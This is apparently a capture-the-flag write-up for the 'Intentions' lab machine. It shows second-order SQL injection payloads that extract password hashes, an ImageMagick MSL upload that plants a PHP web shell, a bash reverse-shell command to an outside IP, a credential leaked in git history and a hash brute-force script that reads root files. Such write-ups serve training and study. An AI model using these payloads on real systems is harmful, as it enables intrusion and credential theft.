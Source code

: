 ## Reconnaissance
```bash
nmap 10.129.229.27 -p- -A -T5 -Pn
```

**Results:**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 47:d2:00:66:27:5e:e6:9c:80:89:03:b5:8f:9e:60:e5 (ECDSA)
|_  256 c8:d0:ac:8d:29:9b:87:40:5f:1b:b0:a4:1d:53:8f:f1 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Intentions
|_http-server-header: nginx/1.18.0 (Ubuntu)
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.14
```

## SQL Injection Exploitation
After registration and authentication, the "Favorite Genres" parameter was found vulnerable to **second-order SQL injection**:
- Payload modified the `genres` parameter to inject UNION queries
- **Reflection point**: `/api/v1/gallery/user/feed` endpoint displayed query results 

**Table enumeration:**
```
')/**/UNION/**/SELECT/**/1,2,table_name,4,5/**/from/**/information_schema.tables#
```
Relevant tables: `users`, `personal_access_tokens`, `gallery_images` 

**Credential extraction:**
```
{"genres":"')/**/UNION/**/SELECT/**/1,CONCAT(name,0x3a,email,0x3a,password),3,4,5/**/from/**/users#"}
```
**Credentials found:**
- `steve@intentions.htb:$2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa`
- `greg@intentions.htb:$2y$10$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m`

## Admin Access & RCE
### v2 API Authentication Bypass
Discovered API v2 endpoint in `/js/admin.js` :
```javascript
// Admin.js hint
"Hey team, I've deployed the v2 API to production..."
```
**Authentication bypass:**
- Authenticated to `/api/v2/auth/login` using Steve's **bcrypt hash** instead of password
- Obtained admin token and accessed `/admin` panel 

### ImageMagick Exploit
Admin panel had image modification functionality vulnerable to **Arbitrary Object Instantiation** :
```http
POST /api/v2/admin/image/modify?path=vid:msl:/tmp/php*&effect=abcd HTTP/1.1
Host: 10.129.229.27
... [admin headers] ...

----------------------------abcd
Content-Disposition: form-data; name="file"; filename="exploit.msl"
Content-Type: application/octet-stream

<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="caption:&lt;?php system($_REQUEST['cmd']); ?&gt;" />
<write filename="info:/var/www/html/intentions/storage/app/public/shell.php" />
</image>
----------------------------abcd
```

**Reverse shell trigger:**
```bash
curl http://10.129.229.27/storage/shell.php -d 'cmd=bash -c "bash -i >%26 /dev/tcp/10.10.16.42/4444 0>%261"'
```
Obtained reverse shell as `www-data` user 

## Privilege Escalation (User)
### Git Analysis
Compressed and downloaded `.git` directory:
```bash
tar -cvf /tmp/git.tar .git
mv /tmp/git.tar /var/www/html/intentions/public/
```
Accessed via `http://intentions.htb/git.tar` 

**Found credentials in commit history:**
```diff
commit f7c903a54cacc4b8f27e00dbf5b0eae4c16c3bb4
Author: greg <greg@intentions.htb>
Date:   Thu Jan 26 09:21:52 2023 +0100

    Test cases did not work on steve's local database, switching to user factory per his advice

diff --git a/tests/Feature/Helper.php b/tests/Feature/Helper.php
@@ -8,12 +8,14 @@ class Helper extends TestCase
     public static function getToken($test, $admin = false) {
         if($admin) {
-            $res = $test->postJson('/api/v1/auth/login', ['email' => 'greg@intentions.htb', 'password' => 'Gr3g1sTh3B3stDev3l0per!1998!']);
-            return $res->headers->get('Authorization');
+            $user = User::factory()->admin()->create();
         }
         else {
-            $res = $test->postJson('/api/v1/auth/login', ['email' => 'greg_user@intentions.htb', 'password' => 'Gr3g1sTh3B3stDev3l0per!1998!']);
-            return $res->headers->get('Authorization');
+            $user = User::factory()->create();
         }
+
+        $token = Auth::login($user);
+        $user->delete();
+        return $token;
```
**Credentials:** `greg:Gr3g1sTh3B3stDev3l0per!1998!` 

**User flag:**
```
7b0b********************************
```

## Privilege Escalation (Root)
### Scanner Binary Analysis
Greg belonged to `scanner` group with access to custom binary:
```bash
$ ls -l /opt/scanner/scanner
-rwxr-xr-- 1 root scanner 16976 Jan 26  2023 /opt/scanner/scanner
```

**Binary functionality:**
```bash
$ /opt/scanner/scanner -h
Usage: scanner -c <config-file> -l <line> -p -s <speed>
```
The `-c` flag could read arbitrary files but with **output hashing** 

### Hash Manipulation
Created Python script to brute-force file reading:
```python
import hashlib
import os
import string

charset = string.printable
result = ""

def get_hash(i):
    return os.popen(f"/opt/scanner/scanner -c /root/root.txt -l {i} -p -s 1111").read().split(" ")[-1].strip()

def find_char(pos, known_hash):
    for char in charset:
        test_str = result + char
        if hashlib.md5(test_str.encode()).hexdigest() == known_hash:
            return char
    return None

for i in range(1, 50):
    line_hash = get_hash(i)
    char_found = find_char(i, line_hash)
    if char_found:
        result += char_found
    else:
        break

print(f"Recovered content: {result}")
```
**Recovered root SSH key** from `/root/.ssh/id_rsa` 

**Root flag:**
```
3e2d********************************
```

## Conclusion
**Attack chain:**
1. Second-order SQLi → credential extraction
2. v2 API hash authentication → admin access
3. ImageMagick arbitrary object instantiation → RCE
4. Git analysis → user credentials
5. Custom binary hash manipulation → root access
